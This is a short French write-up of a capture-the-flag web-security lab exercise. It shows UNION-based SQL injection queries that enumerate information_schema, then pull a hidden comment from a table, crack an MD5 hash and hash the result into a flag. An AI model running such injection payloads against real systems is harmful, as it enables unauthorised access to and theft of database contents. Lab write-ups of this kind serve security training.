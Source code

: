 # SQL Injection #2

## Exploitation

En utilisant le meme injection que dans [sqli_page_member](../../sqli_page_member)

On utilise cette query:

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

On peut voir qu'il y une tables `list_images` avec une colonne `comment`:

```text
First name: list_images
Surname : comment
```

On utilise cette query:

```sql
ID: 1 UNION SELECT title,comment from Member_images.list_images
```

On obtient:

```text
First name: Hack me ?
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

On decode:

```text
1928e8083cf461a51303633093573c46 * md5 decode = albatroz
```

Pour obtenir le flag:

```bash
$> echo -n albatroz | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Resolution

Meme remarque que dans [sqli_page_member](../../sqli_page_member/Ressources/report.md)
